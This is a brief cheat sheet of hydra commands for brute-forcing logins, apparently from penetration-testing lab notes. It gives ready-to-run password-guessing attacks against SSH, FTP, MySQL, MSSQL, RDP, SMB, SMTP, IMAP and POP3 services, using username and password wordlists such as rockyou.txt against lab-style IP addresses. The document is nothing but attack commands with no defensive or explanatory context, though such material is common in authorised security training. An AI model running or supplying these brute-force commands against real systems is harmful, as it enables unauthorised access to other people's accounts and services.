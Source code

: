### SSH
```shell
hydra -L user.list -P password.list ssh://10.129.42.197 -t 64
```
### FTP
```
hydra -L users.list -P passwords.list ftp://10.129.203.6 -s 2121 -t 4
```
### MySQL
```
hydra -L usernames.txt -P pass.txt <ip> mysql
```
### MSSQL
```
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssql
```
### RDP
```shell
hydra -L user.list -P password.list rdp://10.129.42.197
```
### SMB
```shell
hydra -L user.list -P password.list smb://10.129.42.197
```
### SMTP
```
hydra -L user.list -P /usr/share/wordlists/rockyou.txt smtp://10.129.203.12 -f
```
### IMAP
```
hydra -L user.list -P /path/to/passwords.txt -f <IP> imap -V
```
### POP3
```
hydra -L users.list -P pws.list -f 10.129.238.158 pop3 -V
```